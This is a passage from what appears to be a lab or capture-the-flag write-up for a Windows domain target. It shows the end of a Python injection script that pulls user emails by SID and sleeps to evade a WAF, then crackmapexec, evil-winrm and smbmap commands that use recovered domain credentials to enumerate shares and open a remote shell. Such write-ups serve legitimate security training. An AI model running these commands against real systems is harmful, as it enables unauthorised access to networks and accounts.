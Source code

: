 ```python
            rtext = make_request(payload)
            #print(payload)
            try:
                js = json.loads(rtext)
                if js[0]['email']:
                    print(f"sid-{i}:{js[0]['email']}")
                time.sleep(3) # sleep to avoid the waf
            except:
                time.sleep(5)

exploit().cmdloop()
```





![image-20221225114018610](./images/image-20221225114018610.png)



## shell tushikikatoma

check smbshare with tushikikatoma creds, use the domain user

```bash
crackmapexec smb $tip -u tushikikatomo -p finance1  --shares

evil-winrm -u "MEGACORP\tushikikatomo" -p finance1 -i $tip

# use domain user to auth
smbmap -H $tip -d megacorp.local -u tushikikatomo -p finance1 -R
```
